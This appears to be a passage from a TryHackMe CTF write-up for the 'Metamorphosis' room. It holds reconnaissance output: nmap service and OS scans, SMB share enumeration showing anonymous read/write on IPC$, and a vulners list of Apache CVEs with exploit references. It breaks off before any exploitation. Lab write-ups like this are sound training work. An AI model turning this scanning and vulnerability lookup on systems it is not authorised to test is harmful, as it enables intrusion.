


# TryHackMe(THM) - Metamorphosis - WriteUp

> Austin Lai | August 14th, 2021

---

<!-- Description -->

[Room = TryHackMe(THM) - Metamorphosis](https://tryhackme.com/room/metamorphosis)

Difficulty: **Medium**

The room is completed on Aug 14th, 2021

<!-- /Description -->

---

## Table of Contents

<!-- TOC -->

- [TryHackMe(THM) - Metamorphosis - WriteUp](#tryhackmethm---metamorphosis---writeup)
    - [Table of Contents](#table-of-contents)
    - [Task 1](#task-1)
    - [Let's Begin Here !!!](#lets-begin-here-)

<!-- /TOC -->

---

## Task 1

```text
Part of Incognito CTF

Part of Incognito 2.0 CTF

Like my work, Follow on twitter to be updated and know more about my work! (@0cirius0)
```

<details><summary>Hint given for user flag</summary>

```text
https://muirlandoracle.co.uk/2020/01/29/rsa-encryption/
```

</details>


## Let's Begin Here !!!

Let's fire up basic enumeration.

Nmap fast scan result:

```text
# Nmap 7.91 scan initiated Sat Aug 14 08:53:14 2021 as: nmap -n --privileged --stats-every 15s -vvvvvv -sV -T4 -O -F --top-ports 5000 -r --reason --append-output -oN TryHackMe-fast-scan-Metamorphosis GÇôversion-light 10.10.76.228 Metamorphosis 10.10.76.228
Failed to resolve "GÇôversion-light".
Failed to resolve "Metamorphosis".
Nmap scan report for 10.10.76.228
Host is up, received reset ttl 61 (0.38s latency).
Scanned at 2021-08-14 08:53:19 Malay Peninsula Standard Time for 82s
Not shown: 4995 closed ports
Reason: 4995 resets
PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
139/tcp open  netbios-ssn syn-ack ttl 61 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack ttl 61 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
873/tcp open  rsync       syn-ack ttl 61 (protocol version 31)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/14%OT=22%CT=1%CU=43019%PV=Y%DS=4%DC=I%G=Y%TM=6117145
OS:1%P=i686-pc-windows-windows)SEQ(SP=106%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A
OS:)SEQ(SP=106%GCD=1%ISR=109%TI=Z%CI=Z%TS=B)SEQ(CI=Z%II=I)OPS(O1=M508ST11NW
OS:6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST
OS:11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40
OS:%W=F507%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R
OS:=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
OS:T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%U
OS:N=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 4 hops
Service Info: Host: INCOGNITO; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap scan report for 10.10.76.228
Host is up, received reset ttl 61 (0.47s latency).
Scanned at 2021-08-14 08:53:19 Malay Peninsula Standard Time for 136s
Not shown: 4995 closed ports
Reason: 4995 resets
PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
139/tcp open  netbios-ssn syn-ack ttl 61 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack ttl 61 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
873/tcp open  rsync       syn-ack ttl 61 (protocol version 31)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/14%OT=22%CT=1%CU=36614%PV=Y%DS=4%DC=I%G=Y%TM=6117148
OS:7%P=i686-pc-windows-windows)SEQ(SP=FF%GCD=1%ISR=103%TI=Z%CI=Z%II=I%TS=A)
OS:SEQ(CI=Z%II=I)OPS(O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508S
OS:T11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5
OS:=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=3D2%O=NNT11%CC=N%Q=)T1(R=Y%DF=Y%T=40%S
OS:=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=40%W=3D2%S=O%A=O%F=A%O=NNT11%RD=0%Q=)
OS:T2(R=N)T3(R=Y%DF=Y%T=40%W=3D2%S=O%A=O%F=A%O=NNT11%RD=0%Q=)T3(R=N)T4(R=Y%
OS:DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%
OS:O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%
OS:W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%
OS:RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 49.289 days (since Sat Jun 26 01:58:51 2021)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=255 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: Host: INCOGNITO; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: C:\Program Files (x86)\Nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 14 08:55:35 2021 -- 2 IP addresses (2 hosts up) scanned in 141.50 seconds
```

Nmap smb result:

```text
# Nmap 7.91 scan initiated Sat Aug 14 09:02:31 2021 as: nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse --min-parallelism 30 --min-rate 300 --script=safe --script-trace --reason --append-output -oN TryHackMe-Metamorphosis-smb 10.10.76.228
Pre-scan script results:
| broadcast-dns-service-discovery: 
|   224.0.0.251
|     47989/tcp nvstream_dbd
|_      Address=10.4.2.85 fe80::7947:bfa5:537f:aca
| broadcast-igmp-discovery: 
|   192.168.0.1
|     Interface: eth5
|     Version: 2
|     Group: 239.255.255.250
|     Description: Organization-Local Scope (rfc2365)
|_  Use the newtargets script-arg to add the results as targets
| broadcast-listener: 
|   udp
|       SSDP
|         ip             uri
|_        192.168.10.99   urn:dial-multiscreen-org:service:dial:1
|_eap-info: please specify an interface with -e
|_hostmap-robtex: *TEMPORARILY DISABLED* due to changes in Robtex's API. See https://www.robtex.com/api/
|_http-robtex-shared-ns: *TEMPORARILY DISABLED* due to changes in Robtex's API. See https://www.robtex.com/api/
| lltd-discovery: 
|   192.168.0.100
|     Hostname: austin-helper-x1
|     Mac: 00:15:5d:18:36:99 (Microsoft)
|     IPv6: fe80::5970:3486:9311:d9f1
|_  Use the newtargets script-arg to add the results as targets
| targets-asn: 
|_  targets-asn.asn is a mandatory parameter
Nmap scan report for 10.10.76.228
Host is up, received reset ttl 61 (0.36s latency).

PORT    STATE SERVICE      REASON
445/tcp open  microsoft-ds syn-ack ttl 61

Host script results:
|_clock-skew: mean: 2s, deviation: 2s, median: 0s
| dns-blacklist: 
|   SPAM
|_    l2.apews.org - FAIL
|_fcrdns: FAIL (No PTR record)
|_ipidseq: ERROR: Script execution failed (use -d to debug)
|_msrpc-enum: NT_STATUS_OBJECT_NAME_NOT_FOUND
|_nbstat: NetBIOS name: INCOGNITO, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_path-mtu: ERROR: Script execution failed (use -d to debug)
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.76.228\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (incognito server (Samba, Ubuntu))
|     Users: 2
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.76.228\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>
| smb-mbenum: 
|   DFS Root
|     INCOGNITO  0.0  incognito server (Samba, Ubuntu)
|   Master Browser
|     INCOGNITO  0.0  incognito server (Samba, Ubuntu)
|   Print server
|     INCOGNITO  0.0  incognito server (Samba, Ubuntu)
|   Server
|     INCOGNITO  0.0  incognito server (Samba, Ubuntu)
|   Server service
|     INCOGNITO  0.0  incognito server (Samba, Ubuntu)
|   Unix server
|     INCOGNITO  0.0  incognito server (Samba, Ubuntu)
|   Windows NT/2000/XP/2003 server
|     INCOGNITO  0.0  incognito server (Samba, Ubuntu)
|   Workstation
|_    INCOGNITO  0.0  incognito server (Samba, Ubuntu)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: incognito
|   NetBIOS computer name: INCOGNITO\x00
|   Domain name: \x00
|   FQDN: incognito
|_  System time: 2021-08-14T01:06:01+00:00
| smb-protocols: 
|   dialects: 
|     NT LM 0.12 (SMBv1) [dangerous, but default]
|     2.02
|     2.10
|     3.00
|     3.02
|_    3.11
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-capabilities: 
|   2.02: 
|     Distributed File System
|   2.10: 
|     Distributed File System
|     Leasing
|     Multi-credit operations
|   3.00: 
|     Distributed File System
|     Leasing
|     Multi-credit operations
|   3.02: 
|     Distributed File System
|     Leasing
|     Multi-credit operations
|   3.11: 
|     Distributed File System
|     Leasing
|_    Multi-credit operations
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-14T01:05:59
|_  start_date: N/A
| unusual-port: 
|_  WARNING: this script depends on Nmap's service/version detection (-sV)

Post-scan script results:
| reverse-index: 
|_  445/tcp: 10.10.76.228
# Nmap done at Sat Aug 14 09:11:00 2021 -- 1 IP address (1 host up) scanned in 509.01 seconds
```

Nmap full safe result:

```text
# Nmap 7.91 scan initiated Sat Aug 14 08:53:00 2021 as: nmap -n --privileged --stats-every 15s -vvvvvv -Pn -p- -r -A -sCSV -O --version-all -T4 --min-parallelism 30 --min-rate 300 --script=safe --script-trace --reason --append-output -oN TryHackMe-full-safe-scan-Metamorphosis-initial 10.10.76.228 Metamorphosis-initial 10.10.76.228
Pre-scan script results:
| broadcast-dns-service-discovery: 
|   224.0.0.251
|     47989/tcp nvstream_dbd
|_      Address=10.4.2.85 fe80::7947:bfa5:537f:aca
| broadcast-igmp-discovery: 
|   10.10.100.1
|     Interface: eth1
|     Version: 2
|     Group: 224.0.0.9
|     Description: RIP2 Routers (rfc1723)
|   10.10.100.1
|     Interface: eth1
|     Version: 2
|     Group: 224.0.0.251
|     Description: mDNS (rfc6762)
|   10.10.200.1
|     Interface: eth2
|     Version: 2
|     Group: 224.0.0.9
|     Description: RIP2 Routers (rfc1723)
|   10.10.200.1
|     Interface: eth2
|     Version: 2
|     Group: 224.0.0.251
|     Description: mDNS (rfc6762)
|   10.10.200.1
|     Interface: eth2
|     Version: 2
|     Group: 239.255.255.250
|     Description: Organization-Local Scope (rfc2365)
|_  Use the newtargets script-arg to add the results as targets
| broadcast-listener: 
|   ether
|       EIGRP Update
|         
|   udp
|       SSDP
|         ip                         uri
|         10.10.200.1                 urn:dial-multiscreen-org:service:dial:1
|         fe80::5970:3486:9311:d9f1   upnp:rootdevice
|         fe80::b11d:f915:9ad5:5cef   urn:schemas-wifialliance-org:device:WFADevice:1
|         fe80::80db:50ba:4c8b:d0e3   urn:schemas-wifialliance-org:device:WFADevice:1
|         fe80::8063:873e:281d:f4f1   urn:schemas-wifialliance-org:device:WFADevice:1
|         fe80::ed42:7e1f:e250:323a   urn:schemas-wifialliance-org:device:WFADevice:1
|         fe80::1859:87b9:7ee4:9fb    urn:schemas-wifialliance-org:device:WFADevice:1
|         fe80::ec5b:ce1c:fd59:e140   urn:schemas-wifialliance-org:device:WFADevice:1
|         fe80::7947:bfa5:537f:aca    urn:schemas-wifialliance-org:device:WFADevice:1
|         10.10.200.1                 urn:schemas-wifialliance-org:device:WFADevice:1
|         fe80::5970:3486:9311:d9f1   urn:schemas-wifialliance-org:device:WFADevice:1
|       Netbios
|         Query
|           ip           query
|           10.10.200.1  
|       LLMNR
|         ip                         query
|         fe80::5970:3486:9311:d9f1  g\xC3\xA7\xC3\xB4version-light
|         fe80::7947:bfa5:537f:aca   g\xC3\xA7\xC3\xB4version-light
|         fe80::8063:873e:281d:f4f1  g\xC3\xA7\xC3\xB4version-light
|         10.10.200.1                g\xC3\xA7\xC3\xB4version-light
|         fe80::5970:3486:9311:d9f1  Metamorphosis
|         fe80::7947:bfa5:537f:aca   Metamorphosis
|         fe80::8063:873e:281d:f4f1  Metamorphosis
|         10.10.200.1                Metamorphosis
|         fe80::5970:3486:9311:d9f1  metamorphosis
|         fe80::8063:873e:281d:f4f1  metamorphosis
|         10.10.200.1                metamorphosis
|         fe80::7947:bfa5:537f:aca   metamorphosis
|         fe80::5970:3486:9311:d9f1  wpad
|         fe80::8063:873e:281d:f4f1  wpad
|         10.10.200.1                wpad
|         fe80::7947:bfa5:537f:aca   wpad
|         fe80::5970:3486:9311:d9f1  AUSTIN-HELPER-X
|         fe80::7947:bfa5:537f:aca   AUSTIN-HELPER-X
|         fe80::8063:873e:281d:f4f1  AUSTIN-HELPER-X
|_        10.10.200.1                AUSTIN-HELPER-X
|_eap-info: please specify an interface with -e
|_hostmap-robtex: *TEMPORARILY DISABLED* due to changes in Robtex's API. See https://www.robtex.com/api/
|_http-robtex-shared-ns: *TEMPORARILY DISABLED* due to changes in Robtex's API. See https://www.robtex.com/api/
| lltd-discovery: 
|   192.168.0.100
|     Hostname: austin-helper-x1
|     Mac: 00:15:5d:18:36:99 (Microsoft)
|     IPv6: fe80::5970:3486:9311:d9f1
|_  Use the newtargets script-arg to add the results as targets
| targets-asn: 
|_  targets-asn.asn is a mandatory parameter
Failed to resolve "Metamorphosis-initial".
Nmap scan report for 10.10.76.228
Host is up, received user-set (0.37s latency).
Scanned at 2021-08-14 08:56:18 Malay Peninsula Standard Time for 546s
Not shown: 65530 closed ports
Reason: 65530 resets
PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
|_banner: SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3
| ssh-hostkey: 
|   2048 f7:0f:0a:18:50:78:07:10:f2:32:d1:60:30:40:d4:be (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDjT/lRIkM7TFdpO6bwrOH8B0fB1kVslwfc/jdO+WtRiic1J8hDXzLatrXeBpzFqWveVmMI84dUhmidyBTk+jIksonSxB6IrLxCw+clRTQOUGXYw6iu3DiVZ6Xr/BlnxscgGuFMEvYd7E2ADyyVY/HDvpPMIv7SrDxfd+UNXf9yELZbsgY9CEqBuqT/3Ka4lt6ecslpcfMbkhZdiTgYnZ9EMrcmJlKcEXMq/tliZt5VuV7nxOEqKi1LfmgeIcl48Mok1sPCro+QsVfR5BvJPilLIfC35HoaBF1tyIdbzvZLfj/iCB/EhhtMqLZoPB2l/fg7RQ9soXK1rYgRbM0x7sv7
|   256 5c:00:37:df:b2:ba:4c:f2:3c:46:6e:a3:e9:44:90:37 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGW8YbCvrlt/1rWQ4pObroj9o9vLbiGbYb/xxAjX/HoTxGUGYF/lYBCbZtmv8Fnkfs5Lg6K5MIHjjd/jpzNDQOg=
|   256 fe:bf:53:f1:d0:5a:7c:30:db:ac:c8:3c:79:64:47:c8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKxJeDTFMHsXaGHyZ8lSFpxm8VpawK1rvSDY0lbifD8e
| ssh2-enum-algos: 
|   kex_algorithms: (10)
|       curve25519-sha256
|       curve25519-sha256@libssh.org
|       ecdh-sha2-nistp256
|       ecdh-sha2-nistp384
|       ecdh-sha2-nistp521
|       diffie-hellman-group-exchange-sha256
|       diffie-hellman-group16-sha512
|       diffie-hellman-group18-sha512
|       diffie-hellman-group14-sha256
|       diffie-hellman-group14-sha1
|   server_host_key_algorithms: (5)
|       ssh-rsa
|       rsa-sha2-512
|       rsa-sha2-256
|       ecdsa-sha2-nistp256
|       ssh-ed25519
|   encryption_algorithms: (6)
|       chacha20-poly1305@openssh.com
|       aes128-ctr
|       aes192-ctr
|       aes256-ctr
|       aes128-gcm@openssh.com
|       aes256-gcm@openssh.com
|   mac_algorithms: (10)
|       umac-64-etm@openssh.com
|       umac-128-etm@openssh.com
|       hmac-sha2-256-etm@openssh.com
|       hmac-sha2-512-etm@openssh.com
|       hmac-sha1-etm@openssh.com
|       umac-64@openssh.com
|       umac-128@openssh.com
|       hmac-sha2-256
|       hmac-sha2-512
|       hmac-sha1
|   compression_algorithms: (2)
|       none
|_      zlib@openssh.com
80/tcp  open  http        syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
| http-comments-displayer: 
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.76.228
|     
|     Path: http://10.10.76.228:80/
|     Line number: 2
|     Comment: 
|         <!--
|             Modified from the Debian original for Ubuntu
|             Last updated: 2016-11-16
|             See: https://launchpad.net/bugs/1288690
|           -->
|     
|     Path: http://10.10.76.228:80/
|     Line number: 192
|     Comment: 
|         <!--      <div class="table_of_contents floating_element">
|                 <div class="section_header section_header_grey">
|                   TABLE OF CONTENTS
|                 </div>
|                 <div class="table_of_contents_item floating_element">
|                   <a href="#about">About</a>
|                 </div>
|                 <div class="table_of_contents_item floating_element">
|                   <a href="#changes">Changes</a>
|                 </div>
|                 <div class="table_of_contents_item floating_element">
|                   <a href="#scope">Scope</a>
|                 </div>
|                 <div class="table_of_contents_item floating_element">
|                   <a href="#files">Config files</a>
|                 </div>
|               </div>
|_        -->
|_http-date: Sat, 14 Aug 2021 01:00:20 GMT; +1s from local time.
|_http-fetch: Please enter the complete path of the directory to save data in.
| http-grep: 
|   (1) http://10.10.76.228:80/manual: 
|     (1) ip: 
|_      + 10.10.76.228
| http-headers: 
|   Date: Sat, 14 Aug 2021 01:00:33 GMT
|   Server: Apache/2.4.29 (Ubuntu)
|   Connection: close
|   Content-Type: text/html; charset=UTF-8
|   
|_  (Request type: HEAD)
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-malware-host: Host appears to be clean
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-mobileversion-checker: No mobile version detected.
| http-php-version: Logo query returned unknown hash 89c9e595f3f55983358705e04973c326
|_Credits query returned unknown hash 89c9e595f3f55983358705e04973c326
|_http-referer-checker: Couldn't find any cross-domain scripts.
|_http-security-headers: 
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-useragent-tester: 
|   Status for browser useragent: 200
|   Allowed User Agents: 
|     Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)
|     libwww
|     lwp-trivial
|     libcurl-agent/1.0
|     PHP/
|     Python-urllib/2.5
|     GT::WWW
|     Snoopy
|     MFC_Tear_Sample
|     HTTP::Lite
|     PHPCrawl
|     URI::Fetch
|     Zend_Http_Client
|     http client
|     PECL::HTTP
|     Wget/1.13.4 (linux-gnu)
|_    WWW-Mechanize/1.34
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
|_http-xssed: No previously reported XSS vuln.
| vulners: 
|   cpe:/a:apache:http_server:2.4.29: 
|     	CVE-2021-26691	7.5	https://vulners.com/cve/CVE-2021-26691
|     	MSF:ILITIES/REDHAT_LINUX-CVE-2019-0211/	7.2	https://vulners.com/metasploit/MSF:ILITIES/REDHAT_LINUX-CVE-2019-0211/	*EXPLOIT*
|     	MSF:ILITIES/IBM-HTTP_SERVER-CVE-2019-0211/	7.2	https://vulners.com/metasploit/MSF:ILITIES/IBM-HTTP_SERVER-CVE-2019-0211/	*EXPLOIT*
|     	EXPLOITPACK:44C5118F831D55FAF4259C41D8BDA0AB	7.2	https://vulners.com/exploitpack/EXPLOITPACK:44C5118F831D55FAF4259C41D8BDA0AB	*EXPLOIT*
|     	CVE-2019-0211	7.2	https://vulners.com/cve/CVE-2019-0211
|     	1337DAY-ID-32502	7.2	https://vulners.com/zdt/1337DAY-ID-32502	*EXPLOIT*
|     	MSF:ILITIES/UBUNTU-CVE-2018-1312/	6.8	https://vulners.com/metasploit/MSF:ILITIES/UBUNTU-CVE-2018-1312/	*EXPLOIT*
|     	MSF:ILITIES/UBUNTU-CVE-2017-15715/	6.8	https://vulners.com/metasploit/MSF:ILITIES/UBUNTU-CVE-2017-15715/	*EXPLOIT*
|     	MSF:ILITIES/SUSE-CVE-2017-15715/	6.8	https://vulners.com/metasploit/MSF:ILITIES/SUSE-CVE-2017-15715/	*EXPLOIT*
|     	MSF:ILITIES/REDHAT_LINUX-CVE-2017-15715/	6.8	https://vulners.com/metasploit/MSF:ILITIES/REDHAT_LINUX-CVE-2017-15715/	*EXPLOIT*
|     	MSF:ILITIES/ORACLE_LINUX-CVE-2017-15715/	6.8	https://vulners.com/metasploit/MSF:ILITIES/ORACLE_LINUX-CVE-2017-15715/	*EXPLOIT*
|     	MSF:ILITIES/ORACLE-SOLARIS-CVE-2017-15715/	6.8	https://vulners.com/metasploit/MSF:ILITIES/ORACLE-SOLARIS-CVE-2017-15715/	*EXPLOIT*
|     	MSF:ILITIES/IBM-HTTP_SERVER-CVE-2017-15715/	6.8	https://vulners.com/metasploit/MSF:ILITIES/IBM-HTTP_SERVER-CVE-2017-15715/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP3-CVE-2018-1312/	6.8	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP3-CVE-2018-1312/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP3-CVE-2017-15715/	6.8	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP3-CVE-2017-15715/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP2-CVE-2018-1312/	6.8	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP2-CVE-2018-1312/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP2-CVE-2017-15715/	6.8	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP2-CVE-2017-15715/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP1-CVE-2018-1312/	6.8	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP1-CVE-2018-1312/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP1-CVE-2017-15715/	6.8	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP1-CVE-2017-15715/	*EXPLOIT*
|     	MSF:ILITIES/FREEBSD-CVE-2017-15715/	6.8	https://vulners.com/metasploit/MSF:ILITIES/FREEBSD-CVE-2017-15715/	*EXPLOIT*
|     	MSF:ILITIES/DEBIAN-CVE-2017-15715/	6.8	https://vulners.com/metasploit/MSF:ILITIES/DEBIAN-CVE-2017-15715/	*EXPLOIT*
|     	MSF:ILITIES/CENTOS_LINUX-CVE-2017-15715/	6.8	https://vulners.com/metasploit/MSF:ILITIES/CENTOS_LINUX-CVE-2017-15715/	*EXPLOIT*
|     	MSF:ILITIES/APACHE-HTTPD-CVE-2017-15715/	6.8	https://vulners.com/metasploit/MSF:ILITIES/APACHE-HTTPD-CVE-2017-15715/	*EXPLOIT*
|     	MSF:ILITIES/AMAZON_LINUX-CVE-2017-15715/	6.8	https://vulners.com/metasploit/MSF:ILITIES/AMAZON_LINUX-CVE-2017-15715/	*EXPLOIT*
|     	MSF:ILITIES/ALPINE-LINUX-CVE-2018-1312/	6.8	https://vulners.com/metasploit/MSF:ILITIES/ALPINE-LINUX-CVE-2018-1312/	*EXPLOIT*
|     	MSF:ILITIES/ALPINE-LINUX-CVE-2017-15715/	6.8	https://vulners.com/metasploit/MSF:ILITIES/ALPINE-LINUX-CVE-2017-15715/	*EXPLOIT*
|     	CVE-2020-35452	6.8	https://vulners.com/cve/CVE-2020-35452
|     	CVE-2018-1312	6.8	https://vulners.com/cve/CVE-2018-1312
|     	CVE-2017-15715	6.8	https://vulners.com/cve/CVE-2017-15715
|     	CVE-2019-10082	6.4	https://vulners.com/cve/CVE-2019-10082
|     	MSF:ILITIES/REDHAT_LINUX-CVE-2019-0217/	6.0	https://vulners.com/metasploit/MSF:ILITIES/REDHAT_LINUX-CVE-2019-0217/	*EXPLOIT*
|     	MSF:ILITIES/IBM-HTTP_SERVER-CVE-2019-0217/	6.0	https://vulners.com/metasploit/MSF:ILITIES/IBM-HTTP_SERVER-CVE-2019-0217/	*EXPLOIT*
|     	CVE-2019-0217	6.0	https://vulners.com/cve/CVE-2019-0217
|     	EDB-ID:47689	5.8	https://vulners.com/exploitdb/EDB-ID:47689	*EXPLOIT*
|     	CVE-2020-1927	5.8	https://vulners.com/cve/CVE-2020-1927
|     	CVE-2019-10098	5.8	https://vulners.com/cve/CVE-2019-10098
|     	1337DAY-ID-33577	5.8	https://vulners.com/zdt/1337DAY-ID-33577	*EXPLOIT*
|     	MSF:ILITIES/UBUNTU-CVE-2018-1333/	5.0	https://vulners.com/metasploit/MSF:ILITIES/UBUNTU-CVE-2018-1333/	*EXPLOIT*
|     	MSF:ILITIES/UBUNTU-CVE-2018-1303/	5.0	https://vulners.com/metasploit/MSF:ILITIES/UBUNTU-CVE-2018-1303/	*EXPLOIT*
|     	MSF:ILITIES/UBUNTU-CVE-2017-15710/	5.0	https://vulners.com/metasploit/MSF:ILITIES/UBUNTU-CVE-2017-15710/	*EXPLOIT*
|     	MSF:ILITIES/REDHAT_LINUX-CVE-2020-9490/	5.0	https://vulners.com/metasploit/MSF:ILITIES/REDHAT_LINUX-CVE-2020-9490/	*EXPLOIT*
|     	MSF:ILITIES/ORACLE_LINUX-CVE-2020-9490/	5.0	https://vulners.com/metasploit/MSF:ILITIES/ORACLE_LINUX-CVE-2020-9490/	*EXPLOIT*
|     	MSF:ILITIES/ORACLE-SOLARIS-CVE-2020-1934/	5.0	https://vulners.com/metasploit/MSF:ILITIES/ORACLE-SOLARIS-CVE-2020-1934/	*EXPLOIT*
|     	MSF:ILITIES/ORACLE-SOLARIS-CVE-2017-15710/	5.0	https://vulners.com/metasploit/MSF:ILITIES/ORACLE-SOLARIS-CVE-2017-15710/	*EXPLOIT*
|     	MSF:ILITIES/IBM-HTTP_SERVER-CVE-2017-15710/	5.0	https://vulners.com/metasploit/MSF:ILITIES/IBM-HTTP_SERVER-CVE-2017-15710/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP9-CVE-2020-9490/	5.0	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP9-CVE-2020-9490/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-9490/	5.0	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP8-CVE-2020-9490/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP3-CVE-2017-15710/	5.0	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP3-CVE-2017-15710/	*EXPLOIT*
|     	MSF:ILITIES/HUAWEI-EULEROS-2_0_SP2-CVE-2017-15710/	5.0	https://vulners.com/metasploit/MSF:ILITIES/HUAWEI-EULEROS-2_0_SP2-CVE-2017-15710/	*EXPLOIT*
|     	MSF:ILITIES/FREEBSD-CVE-2020-9490/	5.0	https://vulners.com/metasploit/MSF:ILITIES/FREEBSD-CVE-2020-9490/	*EXPLOIT*
|     	MSF:ILITIES/CENTOS_LINUX-CVE-2020-9490/	5.0	https://vulners.com/metasploit/MSF:ILITIES/CENTOS_LINUX-CVE-2020-9490/	*EXPLOIT*
|     	MSF:ILITIES/CENTOS_LINUX-CVE-2017-15710/	5.0	https://vulners.com/metasploit/MSF:ILITIES/CENTOS_LINUX-CVE-2017-15710/	*EXPLOIT*
